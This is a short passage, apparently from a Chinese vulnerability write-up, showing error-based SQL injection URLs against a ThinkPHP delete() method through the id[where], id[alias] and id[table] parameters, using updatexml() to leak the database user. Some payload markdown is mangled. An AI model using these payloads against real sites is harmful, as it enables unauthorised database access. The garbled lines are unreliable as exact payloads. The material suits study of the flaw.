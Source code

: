 而`delete()`方法的话同样，这里粗略举三个例子，`table`,`alias`,`where`，但使用`table`和`alias`的时候，同时还必须保证`where`不为空（详细原因后面会说）

```
where: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

alias: [http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e](http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id%5Bwhere%5D=1%20and%20updatexml(1,concat(0x7e,user(),0x7e)),1)– `table: [http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[table]=user%20where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e](http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id%5Btable%5D=user%20where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e)),1)–&id[where]=1` 
```

![image](../img/dce71b437d3dd0a4c182cc06cd9fff25.png)

## 参考链接

> https://xz.aliyun.com/t/2629#toc-1